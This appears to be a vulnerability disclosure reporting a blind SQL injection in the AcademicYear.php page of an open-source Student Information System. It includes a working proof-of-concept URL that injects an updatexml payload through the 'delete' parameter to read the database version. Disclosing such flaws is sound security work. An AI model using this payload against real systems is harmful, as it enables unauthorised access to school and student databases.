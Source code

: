 # Exploit Title:
The AcademicYear.php file in this Student Information System (SIS) contains an SQL blind injection vulnerability.

## Vendor Homepage:
https://github.com/ictslgti/sis

## Software Link:
https://github.com/ictslgti/sis

## Version:
The latest version

## Tested on:
PHP7.4.3nts Apache2.4.39 MySQL5.7.26

## Vulnerability Exploitation
After logging in, access academic/AcademicYear.php, then use the following POC to achieve SQL blind injection.
```
http://127.0.0.1/academic/AcademicYear.php?delete=1111%27%20and%20updatexml(1,concat(0x7e,(select%20version()),0x7e),3);%23
```
![](./img/sis_sql.png)